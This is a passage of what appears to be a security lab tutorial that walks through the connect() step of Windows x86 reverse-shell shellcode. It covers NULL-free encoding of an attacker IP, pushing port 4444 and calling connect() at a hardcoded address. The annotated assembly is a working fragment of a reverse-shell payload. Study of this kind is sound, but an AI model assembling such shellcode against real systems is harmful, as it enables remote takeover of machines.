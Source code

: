 add bl,0x2              ; sa_family: AF_INET = 2
push word bx            ; Push sa_family parameter
mov ebx,esp             ; EBX now has the pointer to sockaddr structure
push byte 0x16          ; Size of sockaddr: sa_family + sa_data = 16
push ebx                ; Push pointer ('name' parameter)
push esi                ; Push saved socket handler ('s' parameter)
mov ebx,0x771e6980      ; <b>Change</b>! Address of connect()
call ebx                ; Call connect()
</pre>

1) We first create a `sockaddr_in`/`sockaddr` structure on the stack (That is passed as a `sockaddr`). We add a constant value to the Hex representation of the IP address to encode the IP address and later subtract the constant during the shellcode's execution to decode it. This is to eliminate any NULL bytes (0x0). The IP is placed on the stack in Little-Endian notation (Reverse Order), and the tuple (IP, Port) is held in the `sa_data` field of the `sockaddr` structure, with the `sa_family` value holding the protocol type.
   <pre>
   mov ebx,0x6B57555F      ; Change if needed! Attacker IP: 10.0.2.22. In reverse order:
                           ; hex(22) = 0x16
                           ; hex(2) = 0x02
                           ; hex(0) = 0x00
                           ; hex(10) = 0x0a
                           ; 0x1602000a + 55555555 = 6B57555F
   sub ebx,0x55555555      ; Substract again 55555555 to get the original IP
   push ebx                ; Push the IP (0x1400a8c0) to the stack (No NULL bytes in the shell code!)
   push word 0x5c11        ; Push port: hex(4444) = 0x115c
   xor ebx,ebx             ; Zero out EBX
   add bl,0x2              ; sa_family: AF_INET = 2
   push word bx            ; Push sa_family parameter
   mov ebx,esp             ; Move ESP into EBX now EBX holds the pointer to sockaddr structure (which is on the stack)
   </pre>
   
   * Depending on the IP we are sending, we can change the constant we use in the addition and subtraction to prevent any NULL bytes!
   * For the `sockaddr` structure
2) Then we push the size of the `sockaddr` structure onto the stack (This is always 16 bytes for IPv4).
   ```
   push byte 0x16          ; Size of sockaddr: sa_family + sa_data = 16
   ```
3) We then push the `sockaddr` structure onto the stack, this address was loaded into the `ebx` register in the last line of the `sockaddr` block discussed previously.
   ```
   push ebx                ; Push pointer ('name' parameter)
   ```
4. The socket descriptor is then placed onto the stack. It is assumed that the `WSASocketA(...)` assembly has been run, and it stores the socket descriptor in the `esi` register.
   ```
   push esi                ; Push saved socket handler ('s' parameter)
   ```
5) We then call the `connect(...)` function.
   ```
   mov ebx,0x771e6980      ; Change! Address of connect()
   call ebx                ; Call connect()
   ```
   * The address of the `connect(...)` function is found with [arwin](https://github.com/xinwenfu/arwin)
   * We will return to the stack, and we do not need to save the return value (It will return if it fails or not).
